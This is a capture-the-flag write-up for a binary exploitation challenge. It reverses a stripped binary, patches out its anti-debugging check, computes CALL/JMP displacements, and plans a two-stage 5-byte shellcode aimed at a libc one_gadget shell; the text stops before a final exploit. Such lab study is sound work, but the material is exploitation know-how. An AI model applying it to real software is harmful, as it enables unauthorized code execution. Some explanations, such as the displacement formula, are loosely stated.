`Words from the Past` is a hard difficulty “binary exploitation (pwn)” challenge featured in HTB Cyber Apocalypse 2026. This challenge involved reversing the binary, dealing with minutely annoying anti-debugging patterns and constructing a 5-byte shellcode.


### Preliminary Inspection

Inside the provided `.zip` we had 3 files, `Dockerfile`, `words_from_the_past`, `glibc/libc.so.6` and `glibc/ld-linux-x86-64.so.2`.

Taking a look into `Dockerfile` and it is a pretty generic setup for a CTF challenge.

```
FROM alpine:latest
RUN apk add --no-cache socat dash && ln -sf /usr/bin/dash /bin/sh
EXPOSE 1337
RUN addgroup -S ctf && adduser -S ctf -G ctf
COPY challenge/ /home/ctf/
WORKDIR /home/ctf
USER ctf
CMD ["socat", "tcp-l:1337,reuseaddr,fork", "EXEC:./words_from_the_past"]
```

Inspecting `words_from_the_past` binary, we can observe that it is `64-bit ELF executable` that essentially has no `debugging symbols` and uses its own `loader` from `./glibc` directory.

```
> file words_from_the_past 

words_from_the_past: ELF 64-bit LSB pie executable, x86-64, 
version 1 (SYSV), dynamically linked, 
interpreter ./glibc/ld-linux-x86-64.so.2, 
BuildID[sha1]=238fd45740ccdda61d7bc7e9b0d7ba0a587b8cbb, 
for GNU/Linux 3.2.0, stripped
```

It also has all its `protections` turned on. `PIE` is enabled meaning the binary addresses when loaded are randomized. `NX` meaning stack is not executable. `Full RELRO` meaning `GOT` table cannot be overwritten and `Stack Canary` sort of helps in preventing the stack buffer overflow.

```
> pwn checksec words_from_the_past  

[*] '/home/kali/Desktop/HTB_Pwn/words_from_the_past/words_from_the_past'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
```

Finally, `libc.so.6` that it utilizes is of version `2.39`. We don’t know if these information will be relevant, but surely no information is useless.

```
strings libc.so.6 | grep "GNU C Library"                          
GNU C Library (Ubuntu GLIBC 2.39-0ubuntu8.7) stable release version 2.39.
```

When we run `./words_from_the_past` binary, we see some message and then it waits for our `input`.



As the story of old goes about spamming `A's`, we do that and observe the following. `Invalid Instruction!` message and rest of our `input` just not being taken in.



Doing a quick `readelf`, we see a few interesting `functions` that maybe being used in this binary.



Now, let’s begin reversing the binary to understand what is it doing with our input.

### Reversing Binary

#### Reversing main

We will take a look at `main()` function, a snippet at a time to understand is happening.

```
void main(int a1, char **a2, char **a3)
{
  void *v3; // rax
  unsigned __int8 v4; // [rsp+3Bh] [rbp-3Dh]
  __pid_t pid; // [rsp+40h] [rbp-38h]
  void *addr; // [rsp+48h] [rbp-30h]
  __int64 v7; // [rsp+50h] [rbp-28h]
  void *buf; // [rsp+60h] [rbp-18h]

  puts(asc_2110);
  puts("[Garran Voss] Rin.. You know what to do... Precise moves, keep it fast and lethal..\n");
  fflush(stdout);

/* ..... */
```

Above, we can see that in `puts()` has the message that we observed after we launched our binary.

```
/* ... */
if ( !dword_502C )
  {
    dword_502C = 1;
    pid = fork();
    if ( pid )
    {
      waitpid(pid, nullptr, 0);
      _exit(0);
    }
  }
/* ... */
```

`dword_502C` is a variable inside `.bss` segment which holds uninitialized global and static variables at `.bss:000000000000502C`. It is checking if `dword_502C` is `zero` and if it is then it will do a `pid = fork()` that forks the current process. `pid` value is `non-zero` for the `parent` and `zero` for the `child`. If `pid` value is `non-zero` (meaning that process is running as `parent`) then it will block itself and wait for `child` process to make a `state` change (such as `child` exiting out) and then it will run `_exit(0)` to exit out.

```
/* ... */
prctl(4, 0);
/* ... */
```

It means that `process` won’t create a `core` dump when it crashes.

```
/* ... */
  if ( dword_5030 )
  {
    v7 = sub_159E();
    addr = (void *)(v7 - (((getpid() & 7) + 4096LL) << 12));
    dword_5030 = 2;
    v4 = 0xE9;
    v3 = mmap(addr, 0x1000u, 7, 50, 0xFFFFFFFF, 0);
  }
  else
  {
    dword_5030 = 1;
    v4 = 0xE8;
    v3 = mmap((char *)main + 0x10000, 0x1000u, 7, 34, 0xFFFFFFFF, 0);
  }
  buf = v3;
/* ... */
```

It checks for another `.bss` variable `dword_5030`, if it is set to `zero` value then it execute statements inside `else` block and if it is set to `non-zero` value then it execute statements inside `if` block.

`else` block seems to execute first since we have not yet encountered any statement that sets `dword_5030` value to a `non-zero` value. Inside `else` block, it is setting `v4` to `0xE8` and `v3` holds the address returned by `mmap()` call that creates an `executable` `page` at `main+0x10000` address which is `0x1000` aligned and finally `dword_5030` is set to `1` which is a `non-zero` value. Note that since `dword_5030` is a global variable, if we were to repeat this `if-else` branch again then it will execute the `if` branch.

`else` block here will set `v3` to an address near `main` and `buf` is set to `v3`. `if` block here will set `v3` to an address that is calculated with the help of `sub_159e()` and similarly `buf` is set to `v3`.

```
/* ... */
if ( v3 == (void *)-1LL )
  {
    puts("mmap failed!");
    exit(1);
  }

if ( (int)read(0, v3, 5u) <= 4 )
    exit(1);
/* ... */
```

Here, we are just making sure that `v3` is not `NULL` and then we check if `read()` has read `less than or equal to` `4` bytes and if so then we `exit(1)`. In `read(0, v3, 5u)`, we can see that our user `input` goes into `v3` an address returned by `mmap()` earlier and we can send in `5` bytes.

```
/* ... */
  sub_1295();
  sub_14B1(buf);
  sub_1515(buf);
  sub_1565(buf, v4);
  sub_1445();
/* ... */
```

After passing checks, it will call various `sub_` functions to verify our input further. We will take a look at each function separately later.

```
puts("[Garran Voss] Rin.. You know what to do... Precise moves, keep it fast and lethal..\n");
  fflush(stdout);
  __asm { jmp     rdx }
```

We see `puts` with our message again and a weird `__asm` block that specifies `jmp rdx` to be taking place now. But what is `rdx?`. Let’s step back from `Decompiler` and go to `Disassembly`.

```
.text:0000000000001898                 mov     rdx, [rbp+buf]
.text:000000000000189C                 mov     [rbp+var_78], 0
.text:00000000000018A4                 xor     ebx, ebx
.text:00000000000018A6                 xor     ecx, ecx
.text:00000000000018A8                 mov     r12d, 0DEADh
.text:00000000000018AE                 mov     eax, 1
.text:00000000000018B3                 and     rsp, 0FFFFFFFFFFFFFFF0h
.text:00000000000018B7                 jmp     rdx
```

Here we see, `rdx` is set to `buf` that was previously set to `v3` which is our `mmap()` returned address. Remember that we can put `5 bytes` of user `input` into `buf`. And `jmp rdx` jumps to `rdx` which is our `buf`.

So, we can put in a `5 byte` `shellcode` and it will execute it.

Let’s recap —

1.  `main()` will fork into `parent` and `child`, `parent` will wait for `child` and execution will continue in `child`.
2.  `child` initially executes `else` block which sets `v3` to an address near `main()` function and sets a `global` variable that will make it execute `if` block if we execute the same function again, `if` block also sets `v3` to an address returned by `mmap` but the location calculation involves a `sub_` function.
3.  Finally, `child` will set `rip` to the address of `buf` which contains our input and we can place there `5 bytes` of our input. Thus, we can make it execute our `5 bytes` of input.

#### Reversing sub\_ functions

Now, let’s investigate `sub_` functions.

```
unsigned __int64 sub_159E()
{
  unsigned __int64 v1; // [rsp+0h] [rbp-220h]
  FILE *stream; // [rsp+8h] [rbp-218h]
  char haystack[520]; // [rsp+10h] [rbp-210h] BYREF
  unsigned __int64 v4; // [rsp+218h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  stream = fopen("/proc/self/maps", "r");
  if ( !stream )
  {
    puts("Failed to open maps!");
    exit(1);
  }
/* ... */
```

Here, `sub_159E()` is used in the calculation of `addr` in `if` block earlier. It opens `memory map` of `child` process.

```
/* ... */
  v1 = 0;
  while ( fgets(haystack, 512, stream) )
  {
    if ( strstr(haystack, "libc.so.6") && strstr(haystack, "r--p") )
    {
      v1 = strtoul(haystack, nullptr, 16);
      break;
    }
  }
  fclose(stream);
/* ... */
```

Then it tries to read it line by line and if current line matches `libc.so.6` and `r--p` then it converts beginning of that matching line from `hexadecimal` `string` into a `unsigned long integer`.

```
/* ... */  
  if ( !v1 )
  {
    puts("libc base not found!");
    exit(1);
  }
  return v1;
}
```

It then returns the `libc` `base` address to `v7` in the `main()` function.

```
unsigned __int64 sub_1295()
{
/* ... */
   if ( atoi(v6) )
        {
          puts("Debugger detected!");
          exit(1);
        }
/* ... */
```

`sub_1295()` checks for the presence of `attached` `debugger`.

```
__int64 __fastcall sub_14B1(__int64 a1)
{
/* ... */
if ( *(_BYTE *)(i + a1) )
    {
      result = *(unsigned __int8 *)(i + a1);
      if ( (_BYTE)result != 10 )
        continue;
    }
    puts("Encoding violation detected!");
    exit(1);
  }
/* ... */
```

`sub_14B1()` checks for first `5 bytes` to not be a `\x00` `NULL` value or a `\x0a` `Newline` value.

```
__int64 __fastcall sub_1515(__int64 a1)
{
/* ... */
  if ( (_BYTE)result == 0xCC )
    {
      puts("Breakpoint detected!");
      exit(1);
    }
/* ... */
```

`sub_1515()` checks for the first `5 bytes` to not contain `\xCC` which is a `machine opcode` for `software breakpoint instruction`.

```
__int64 __fastcall sub_1565(unsigned __int8 *a1, char a2)
{
  __int64 result; // rax

  result = *a1;
  if ( a2 != (_BYTE)result )
  {
    puts("Invalid instruction!");
    exit(1);
  }
  return result;
}
```

`sub_1565` checks if the `first byte` of our `buf` is set to `a2` that is its `second argument`. If we go back to `main()` then we see that `sub_1565()` `second argument` is `v4`. For `else` block `v4 = 0xE8` and for `if` block `v4 = 0xE9`.





Let’s extend our recap —

1.  `main()` will fork into `parent` and `child`, `parent` will wait for `child` and execution will continue in `child`.
2.  `child` initially executes `else` block which sets `v3` to an address near `main()` function and sets a `global` variable that will make it execute `if` block if we execute the same function again, `if` block also sets `v3` to an address returned by `mmap` but it sets it near to `libc base` instead.
3.  Finally, `child` will set `rip` to the address of `buf` which contains our input and we can place there `5 bytes` of our input. Thus, we can make it execute our `5 bytes` of input.
4.  Our `5 bytes` of input must not be `\x00` `NULL byte`, `\x0A` `Newline` or `\xCC` `Debug Breakpoint`.
5.  Our `5 bytes` of `shellcode` must start with `\xE8` when executing `else` block (which it does initially) and `\xE9` if we are executing `if` block inside `main()`.
6.  Binary also contain primitive `anti-debugging` techniques that prevents us from attaching a `debugger`.

Now that we are fairly aware about its the functionality and we know where our `input` goes, we can begin to think about how can we leverage all this information.

### Exploiting Binary

#### Patch and Debug



Before we begin, we need to make sure that we can `debug` our `payload` and `binary` well. With `anti-debugging` measures in place with `sub_1295`, we need to `patch` it out so that we can attach a `debugger`.

```
import os
from pwn import *
context.arch = "amd64"

elf = ELF("./words_from_the_past")

sub1295_addr = 0x1295
elf.asm(sub1295_addr, "ret")

elf.save("./words_from_the_past_patched")

os.chmod("./words_from_the_past_patched", 0o755)
```

`elf.asm(sub1295_addr, "ret")` makes `sub_1295` to just `return` back.



#### Calculating Displacement

We know that we will be executing `else` block first that sets `v3` to an address nearby `main` binary code. With binary forcing our `1st byte` to be `0xE8` that is a `Near Call` instruction, we need to determine `rel32` or relative displacement to our `target` address.



As mentioned in the Intel documentation —

`rel32 = (rip + 0x5) + relative_to_rip offset`

Why `+0x5`? As underlined above, `displacement relative to next instruction` and since the size of a `CALL rel32` is `1 byte for opcode + 32bits or 4 bytes = 5 bytes` and so the next `instruction` will be `0x5 bytes` away.

Let `target` be an address that we want to redirect control flow towards. We calculate displacement like the following —

```
current_rip = 0x55f289abf000
target_addr = 0x55f289aaf6d5

rel32 = signed((current_rip + 0x5) - target_addr)

rel32 = signed((0x55f289abf000 + 0x5) - 0x55f289aaf6d5)

rel32 = signed(0xf930)

signed(x) = 2s complement of x

signed(0xf930) = NOT(1111 1001 0011 0000) + 1 = 0xFFFF06D0

rel32 = 0xFFFF06D0
or
rel32 = \xD0\x06\xFF\xFF in Little Endian Order
```



`rel32` calculation for `JMP` is done similarly to `CALL`.

#### Exploitation Path

At this point, it is evident as to where we are heading. The following is the decompiled `main()` function with renamed symbols.

```
void main(int a1, char **a2, char **a3)
{
  void *v3;
  unsigned __int8 expected_opcode;
  __pid_t pid;
  void *addr;
  unsigned __int64 libc_base;
  void *target_buf;

  puts(asc_2110);
  puts("[Garran Voss] Rin.. You know what to do... Precise moves, keep it fast and lethal..\n");
  fflush(stdout);

  if ( !done_once ) {
    done_once = 1;
    pid = fork();
    if ( pid ) {
      waitpid(pid, nullptr, 0);
      _exit(0);
    }
  }

  prctl(4, 0);
  
  if ( mode ) {
    libc_base = find_libc_base();
    addr = (void *)(libc_base - (((getpid() & 7) + 4096LL) << 12));
    mode = 2;
    expected_opcode = 0xE9;
    v3 = mmap(addr, 0x1000u, 7, 50, -1, 0);
  } else {
    mode = 1;
    expected_opcode = 0xE8;
    v3 = mmap((char *)main + 0x10000, 0x1000u, 7, 34, -1, 0);
  }

  target_buf = v3;

  if ( v3 == (void *)-1LL )
  {
    puts("mmap failed!");
    exit(1);
  }

  if ( (int)read(0, v3, 5u) <= 4 )
    exit(1);

  anti_preload_and_debug();
  reject_newline_or_nul(target_buf);
  reject_int3(target_buf);
  require_first_byte(target_buf, expected_opcode);
  timing_check();
  puts("[Garran Voss] Rin.. You know what to do... Precise moves, keep it fast and lethal..\n");
  fflush(stdout);
  __asm { jmp     rdx }
}
```

1.  `Parent` process will spawn a `Child` process. `Parent` process will wait for `Child` process to finish.
2.  `Child` process takes the user `input` as `5 bytes` `shellcode`. `Child` process calculates `mmap()` arguments differently in `if-else` block above. In `else` block, `v3` is set to an address contiguous with `main`. In `if` block, `v3` is set to an address contiguous with `libc base`.
3.  At the end, `Child` process takes our `input` and stores it inside `target_buf` which is `v3` which was an address returned by `mmap()`. Then it `executes` the content of `target_buf`.
4.  `Shellcode` is restricted at using `0xE8` opcode which is for `Near CALL` instruction. We will utilize it as our “stage-1” to redirect the control flow to `main()` function again, such that we can trigger `if` block because this time `mode`, a global variable will be set to `non-zero` value.
5.  Then in `if` block, we are restricted to using `0xE9` which is an opcode for `Near JMP` instruction. We will utilize it as our “stage-2” to redirect the control flow to a `one_gadget` within `libc` which will pop a `shell` for us.

#### Caveats

*   `addr = (libc_base — (((getpid() & 7) + 4096LL) << 12))`, Because `getpid() & 7` varies from run to run, the exact runtime value of `v3` shifts by a multiple of `0x1000` depending on which of 8 possible outcomes we get. Our hardcoded stage-2 displacement was computed for one specific observed `pid & 7` value, so it only lands correctly on runs that happen to produce that same low-order PID bit pattern, roughly a 1-in-8 chance per attempt.

#### Let it RIP

A `one_gadget` is a specific memory address inside `libc` that let us pop a `shell` using just a single jump or overwrite.



We choose the `0x583f3` offset `gadget` by observing our register values while debugging that satisfied the constraints given.

Let’s find `runtime` addresses to calculate our `offsets`.

> Please note that addresses may not be consistent because of me running binary multiple times due to testing.





